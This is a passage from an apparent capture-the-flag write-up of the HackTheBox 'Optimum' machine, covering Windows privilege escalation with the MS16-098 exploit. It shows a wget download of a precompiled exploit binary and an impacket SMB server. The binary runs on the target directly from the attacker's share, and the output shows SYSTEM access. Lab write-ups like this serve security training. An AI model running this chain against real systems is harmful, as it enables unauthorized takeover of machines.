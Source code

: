 ```bash
[E] MS13-101: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (2880430) - Important
[M] MS13-090: Cumulative Security Update of ActiveX Kill Bits (2900986) - Critical
[*] done
```

There's a whole lot here to digest with this output.

### # User -> Administrator: Exploiting MS16-098

The MS16-098 exploit seems promising upon analysis and exploit db has a direct link to a pre-compiled executable. We can download that and attempt to exploit the box with it.

We start by downloading this to the attacking machine, then starting the SMB server again (if you closed it).

```bash
# wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/41020.exe
--2020-05-03 14:32:23--  https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/41020.exe
Resolving github.com (github.com)... 192.30.255.113
Connecting to github.com (github.com)|192.30.255.113|:443... connected.
HTTP request sent, awaiting response... 302 Found
Location: https://raw.githubusercontent.com/offensive-security/exploitdb-bin-sploits/master/bin-sploits/41020.exe [following]
--2020-05-03 14:32:24--  https://raw.githubusercontent.com/offensive-security/exploitdb-bin-sploits/master/bin-sploits/41020.exe
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 151.101.188.133
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|151.101.188.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 560128 (547K) [application/octet-stream]
Saving to: ‘41020.exe’

41020.exe                                                                      100%[===================================================================================================================================================================================================>] 547.00K  1.99MB/s    in 0.3s    

2020-05-03 14:32:25 (1.99 MB/s) - ‘41020.exe’ saved [560128/560128]
# /usr/bin/impacket-smbserver -smb2support share .
```

Then all we need to do is run execute the exploit; we can do so without touching disk by executing directly from the SMB share like so:

```cmd
C:\Users\kostas\Documents>\\10.10.14.19\share\41020.exe
\\10.10.14.19\share\41020.exe
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Documents>whoami && hostname
whoami && hostname
nt authority\system
optimum

C:\Users\kostas\Documents>dir C:\Users\Administrator\Desktop
dir C:\Users\Administrator\Desktop
 Volume in drive C has no label.
 Volume Serial Number is D0BC-0196

 Directory of C:\Users\Administrator\Desktop

18/03/2017  03:14     <DIR>          .
18/03/2017  03:14     <DIR>          ..
```